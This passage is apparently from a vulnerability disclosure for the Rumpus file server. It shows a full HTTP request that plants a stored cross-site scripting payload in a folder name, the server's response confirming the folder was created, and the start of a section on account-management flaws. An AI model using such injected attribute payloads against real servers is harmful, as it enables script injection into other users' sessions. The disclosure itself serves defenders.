The following POST request shows the payload on the last line:
 
 {% highlight html %}
POST /Rumpus.makefolder HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://X.X.X.X
Connection: close
Referer: http://X.X.X.X/
Cookie: UserAccount=_9JBQJFwZ8kY9kR; SessionID=1659220909
Upgrade-Insecure-Requests: 1

FolderName=%22+onmouseover%3D%22alert%281%29
{% endhighlight %}

The response shows the folder is created:

{% highlight html %}
HTTP/1.1 200 OK
Server: Rumpus
Date: Thu, 28 Jan 2021 21:48:43 GMT
Content-type: text/html; charset=UTF-8
Content-length: 98
Connection: close
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block

<html><body onLoad="parent.UploadFinished('Folder Created','','','Complete',true);"></body></html>
{% endhighlight %}

The XSS occurs because the folder name is not sufficiently encoded. With double quotes it is possible to alter the HTLM element. 

# Web User Account Management
The following setting introduces the two other vulnerabilities. The applications network settings contain a remote admin setting called web user account management. This enables the vulnerable functionality of managing user accounts.
